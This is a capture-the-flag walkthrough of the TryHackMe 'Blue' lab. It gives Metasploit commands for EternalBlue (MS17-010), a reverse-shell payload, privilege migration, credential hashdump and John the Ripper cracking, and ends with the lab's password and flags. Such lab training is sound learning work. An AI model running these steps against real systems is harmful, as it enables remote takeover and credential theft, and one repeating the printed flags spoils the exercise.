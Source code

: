 ```yaml
---
layout: page
title: Blue
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.
EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.
This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).
### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)
## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later). 
1. How many ports are open with a port number under 1000?
2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We can answer these questions with just one nmap scan:
```
nmap --script vuln target IP
```
This will return  all open ports (9 in total, **3** under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or **ms17-010**). 
![ports](images/blue/ports.png)
## Gain Access
To get through this section you'll need to install the [Metasploit framework](https://www.metasploit.com/). Then:
1. become root: `sudo su`
2. open up metasploit: `msfconsole`
3. set your local IP address to LHOST: `set LHOST` `tun0` and `LPORT` to a random port that is not already in use (e.g. `set LPPRT 4444`)
4. search metasploit's database for the EternalBlue exploit: `search ms17-010`
	- ![ms17-010](images/blue/ms17-010.png)
5. use the exploit: `use`
6. show the options for the exploit: `show options`. You'll get "**RHOSTS**" as the first result
	- ![show options](images/blue/options.png)
7. now set RHOSTS as the target machine's IP address: `set RHOSTS` target_ip
8. paste 
```
set payload windows/x64/shell/reverse_tcp
```
## Escalate
Background the session with Ctrl+z (then press `y` when prompted)
Let's now search the Metasploit database for info on how to convert a shell to a meterpreter shell:
`search shell_to_meterpreter`

![shell](images/blue/shell.png)

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`
Use this post module with `use 0` and show its' options with `show options`

![session](images/blue/session.png)

Since we have two sessions going on, we will have to change the `SESSION` option to 1 with `session -i 1`. To know to which session you have to switch, use the command `sessions -l`

![sessions](images/blue/sessions.png)

Now run the exploit with `run`
Once we get the `[*] Stopping exploit/multi/handler` message, press `Ctrl+c` to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](/images/blue/session2.png)

![meterpreter](images/blue/meterpreter.png)

The getsystem command will now return this:

![system](images/blue/sytstem.png)

You can also list oll the processes with the ps command and you can migrate to one of these.

![ps](images/blue/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate` and the PID (e.g. `migrate 2868`).
## Cracking
Now use the hashdump command

![hashdump](images/blue/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
> This will return alqfna22 as the password.

![john](images/blue/john.png)

## Find flags!

The first flag is located in the C:\ folder: 
> flag{access_the_machine}

The second flag is loceated in the C:/Windows/System32/config folder: 
> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:
> flag{admin_documents_can_be_valuable}

That' all, hope i helped.